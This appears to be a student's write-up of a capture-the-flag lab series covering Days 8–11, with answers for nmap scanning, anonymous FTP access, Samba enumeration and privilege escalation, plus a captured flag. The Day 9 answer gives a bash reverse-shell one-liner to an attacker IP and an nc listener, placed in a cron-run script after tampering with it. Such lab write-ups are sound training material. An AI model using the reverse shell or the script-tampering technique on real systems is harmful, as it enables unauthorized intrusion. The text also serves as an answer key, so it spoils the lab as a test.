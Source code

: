 ## Day 8 - Networking: What's under the Christmas tree?

	1. When was snort created?
		1998
	2. What 3 services are running on the server?
		80, 2222, 3389 - using command nmap -sS -p- <IP>
	5. What OS distribution is likly on this machine?
		Ubuntu - nmap -A <IP>
	6. What might the webserver be used for?
		Internal Blog - nmap -A <IP>

## Day 9 - Networking - Anyone can be Santa!

	1. What folder does  the anonymous user have access to?
		public - checked by typing ls -al 
	2. What script gets executed within this directory?
		backup.sh - this can be assumed because it is a backup script, as well as if you read the comments in the script is tells you that it is ru every day
	3. What did Santa have on the christmas shopping list?
		The Polar Express - The shopping file is in the same directory as the backup script.
	4. What is the contents of the flag?
		THM{even_you_can_be_santa} - The flag is located in the root home directory, so how do we get there? We use a reverse shell. We need to download the backup script and modify it and reupload the script so that it gets executed and runs the commands that you want it to run. Using the pentesters cheatsheet, we can see a one line command that when executed redirects a shell to a listening IP address. This command is bash -i >& /dev/tcp/<Your IP Address>/4444 0>&1 .On your attacking machine you need to have a netcat listener running, using the command nc -lvnp 4444, in a new comand line. After waiting a minute the script will run and you will be granted access to a shell on your netcat listener where you can read the contents of the file.

## Day 10 - Networking: Don't be sElfish!

	1. How many users are there one the Samba server?
		3 - you are able to use enum4linux -U <IP> and it will list how many users there are
	2. How many shares are on the Samba server?
		4 - you are able to use enum4linux -S <IP> and it will list how many shares there are
	3. What share doesn't require a password?
		tbfc-santa - when running enum4linux -S this was my first choice because it was the only one that listed ok. Trying smbclient on that share, allowed me to login without any password.
	4. What directory did ElfMcSkidy leave for Santa?
		jingle-tunes - once logged in to the samba share, you can run ls and it will list like a normal shell.

## Day 11 - Networking: The Rogue Gnome: Prelude

	1. What type of privilege escalation involves using a user account to execute commands as an administrator?
		vertical
	2. What is the name of the file that contains a list of users who are a part of the sudo group?
		sudoers
	3. What are the contents of the file located at /root/flag.txt